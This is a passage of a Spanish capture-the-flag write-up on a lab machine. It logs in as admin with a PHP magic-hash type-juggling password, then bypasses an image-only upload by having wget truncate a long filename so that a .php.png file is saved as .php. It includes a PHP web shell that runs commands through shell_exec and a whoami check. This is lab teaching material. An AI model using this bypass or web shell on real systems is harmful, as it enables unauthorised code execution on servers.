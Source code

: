 En php, si la comparativa es con un doble igual, estos dos hashes son iguales. Si vamos a la pagina de login y entramos el usuario *admin* y la contraseña *QNKCDZO*,
conseguimos loggearnos como el usuario admin.

### Burlar el upload de imagenes {-}

Una vez loggeados entramos en el panel de upload. Aqui la web nos pone de uploadear una imagen desde una url. Recuperamos una imagen de pollo en la web y la copiamos
en nuestro directorio de trabajo. Lanzamos un servidor web con python `python3 -m http.server 80` y uploadeamos el fichero desde la web poniendo la url `http://10.10.14.15/madafackingchicken.png`.

Aqui nos sale un Output con el commando lanzado por la maquina victima :

```bash
CMD: cd /var/www/html/uploads/0026-2354_e426c9e8c2f64caa; wget 'http://10.10.14.15/madafackingchicken.png'
```

Si miramos en la url `http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/madafackingchicken.png` vemos la imagen del pollo que hemos enviado a la web.

#### wget vulnerabilidad {-}

Tito S4vitar nos avanza aqui que el programa solo permite enviar ficheros con extension `png` o sea ya sabemos que no podemos enviar ficheros `.php`. Pero como
conocemos el commando echo por la maquina victima, y vemos que se utiliza el commando wget, ya tenemos una via potencial de ataque, el nombre de caracteres del nombre del fichero.
En linux, un fichero solo puede tener un nombre de fichero inferior a 255 caracteres incluida la extension. En el caso de un ficher `.png`, el limite maximo de un fichero
seria un nombre de 251 caracteres seguidos de la extension `.png`.

Copiando el resultado del comando `python -c "A"*251 + ".png"` y cambiando el nombre del fichero `madafackingchicken.png` con ello, si uploadeamos este fichero en la web,
vemos que en el resultado de **Saving To** que solo guarda un 235 "A" como nombre de fichero. Esto quiere decir que si enviamos un ficher que tiene como nombre `231 A` con una extesion `.php.png`
la web va a ver que el fichero es un ficher `.png` pero al momento de guardarlo, va a guardar los 235 primeros caracteres que equivalen a `231 A` y la extension `.php`

Creamos un fichero php

```php
touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
vi AAAAAA*

<?php
    echo "<pre>" .shell_exec($_REQUEST['cmd']) ."</pre>";
?>
```

Si enviamos este fichero, vemos que el fichero se a enviado como fichero **.png** pero salvado como fichero **.php** si vamos a la url `http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=whoami`
vemos que somos `www-data`.
## Vuln exploit & Gaining Access {-}
